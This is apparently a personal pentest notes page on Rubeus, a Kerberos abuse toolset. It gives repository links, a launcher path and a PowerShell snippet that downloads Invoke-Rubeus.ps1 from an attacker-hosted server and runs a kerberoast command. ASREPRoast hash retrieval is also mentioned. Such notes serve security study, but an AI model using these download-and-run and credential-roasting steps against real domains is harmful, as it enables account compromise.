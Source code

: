 public:: true

- ```
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
  
    v2.3.0
  ```
  Rubeus is a C# toolset for raw Kerberos interaction and abuses.
- Official [repository](https://github.com/GhostPack/Rubeus)
- Can be [executed from PowerShell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell).
	- Kali provides a `.ps1` launcher which embeds a pre-compiled Rubeus PE.
	  `/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Rubeus.ps1`
	  Or it can be downloaded from [here](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1).
	- Something like the following commands might do the trick. TODO: try this out.
	  ```powershell
	  powershell -c "Invoke-WebRequest 'http://192.168.45.183:8000/Invoke-Rubeus.ps1' -OutFile 'Invoke-Rubeus.ps1'"
	  .\Invoke-Rubeus.ps1 -Command “kerberoast /stats”
	  ```
- Retrieve [[ASREPRoast]] hashes
  id:: 655cede6-f368-47a0-ba38-5d1cb32ab48f
  {{embed ((655cf178-e37d-4ab0-9e2b-e16c2ff7c94f))}}